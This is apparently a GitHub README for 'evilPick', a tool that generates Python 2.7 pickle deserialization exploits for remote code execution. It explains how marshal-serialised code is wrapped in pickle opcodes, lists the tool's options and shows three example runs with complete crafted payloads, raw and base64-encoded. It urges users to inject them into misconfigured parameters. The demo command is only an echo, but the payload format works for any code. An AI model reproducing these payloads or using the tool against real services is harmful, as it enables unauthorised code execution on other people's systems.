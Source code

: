 # evilPick
An Exploit Crafter to achieve Pickle Deserialization Remote Code Execution ,
Just provide the wanted to execute code and you're on the go.

It aims to automate in a simple way Exploit Crafting from python2.7 code files.

Just launch it, copy the crafted exploit and inject it in misconfigured parameters.

#### Know How 
The main part of the exploit is written in  pickle machine language in order to invoke, on deserialization, the code provided by the user.

In particular the passed code is serialized with Marshall library, base64 encoded and put into the pickle machine code which
when deserialized will  :
- base64 decode the payload 
- marshal load the payload (in order to deserialize the code)
- statically build a function, inject the payload code in it
- call that function
Here we are, Remote Code Execution.

## options 
- -f --foo  file_name.py  
craft an exploit that, on deserialization, will execute the given python2.7 code   
- -e --encode base64/hex 
encode the crafted exploit in base64 or hex 
- -s --file  new_file
the crafted exploit is then saved in a file
- -d --dynamic
dynamically write your python code and hit CTRL-C in a new line to end the code


## Examples
example.py code :
```python
import os
os.system("echo Hello World")
```
running evilPick passing the example.py file :
```sh
$ python evilPick.py --foo example.py 
___________________________________________________________
[^] Do you want to encode it? ( base64 or hex,leave for unicode) :        
[*] Crafted Evil Packet: 

ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zEAAAAGVjaG8gSGVsbG8gV29ybGQoAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwgAAAA8c3RyaW5nPnQDAAAAZm9vAQAAAHMEAAAAAAEMAQ=='
tRtRc__builtin__
globals
(tRS''
tR(tR.

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  y
[^] Insert exploit name: example_exploit
[*] Writing it in example_exploit

__________________________Job_Done_________________________
```
running evilPick in dynamic mode with encode base64 option :
```sh
$ python evilPick.py -d -e base64 
___________________________________________________________
[*] Write code till SIGINT, have fun!

|import os
|os.system("echo Hello World!")
|^C

___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVRQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUWhLQUlBQUFCMEFnQUFBRzl6ZEFZQUFBQnplWE4wWlcwb0FRQUFBRklBQUFBQUtBQUFBQUFvQUFBQUFITUlBQUFBUEhOMGNtbHVaejUwQXdBQUFHWnZid0VBQUFCekJBQUFBQUFCREFFPScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  n
```
running evilPick in quick mode providing : example.py (source code), encode schema base64 and destination file 
```sh
python evilPick.py -f example.py -e base64 -s new_exploit
___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVBQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUW9BZ0FBQUhRQ0FBQUFiM04wQmdBQUFITjVjM1JsYlNnQkFBQUFVZ0FBQUFBb0FBQUFBQ2dBQUFBQWN3Z0FBQUE4YzNSeWFXNW5QblFEQUFBQVptOXZBUUFBQUhNRUFBQUFBQUVNQVE9PScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[*] Writing it in new_exploit

__________________________Job_Done_________________________
```

# Author
Lacerenza Francesco - Systems and Networks Security.
twitter: [@lacerenza_fra](https://twitter.com/lacerenza_fra)
linkedin: [lacerenzafrancesco](https://www.linkedin.com/in/francesco-lacerenza/)
